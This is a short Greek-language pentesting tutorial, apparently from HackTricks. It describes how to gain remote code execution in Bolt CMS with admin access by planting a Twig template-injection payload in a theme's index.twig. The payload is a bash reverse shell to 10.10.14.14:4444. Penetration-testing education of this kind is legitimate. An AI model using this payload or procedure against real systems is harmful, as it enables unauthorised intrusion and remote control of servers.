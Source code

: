 # Bolt CMS

{{#include ../../banners/hacktricks-training.md}}

## RCE

Μετά την είσοδο ως διαχειριστής (πηγαίνετε στο /bot για να αποκτήσετε την προτροπή σύνδεσης), μπορείτε να αποκτήσετε RCE στο Bolt CMS:

- Επιλέξτε `Configuration` -> `View Configuration` -> `Main Configuration` ή πηγαίνετε στη διεύθυνση URL `/bolt/file-edit/config?file=/bolt/config.yaml`
- Ελέγξτε την τιμή του θέματος

<figure><img src="../../images/image (771).png" alt=""><figcaption></figcaption></figure>

- Επιλέξτε `File management` -> `View & edit templates`
- Επιλέξτε τη βάση του θέματος που βρέθηκε στο προηγούμενο βήμα (`base-2021` σε αυτή την περίπτωση) και επιλέξτε `index.twig`
- Στην περίπτωσή μου, αυτό είναι στη διεύθυνση URL /bolt/file-edit/themes?file=/base-2021/index.twig
- Ορίστε το payload σας σε αυτό το αρχείο μέσω [template injection (Twig)](../../pentesting-web/ssti-server-side-template-injection/index.html#twig-php), όπως: `{{['bash -c "bash -i >& /dev/tcp/10.10.14.14/4444 0>&1"']|filter('system')}}`
- Και αποθηκεύστε τις αλλαγές

<figure><img src="../../images/image (948).png" alt=""><figcaption></figcaption></figure>

- Καθαρίστε την κρυφή μνήμη στο `Maintenance` -> `Clear the cache`
- Αποκτήστε ξανά πρόσβαση στη σελίδα ως κανονικός χρήστης, και το payload θα πρέπει να εκτελείται

{{#include ../../banners/hacktricks-training.md}}
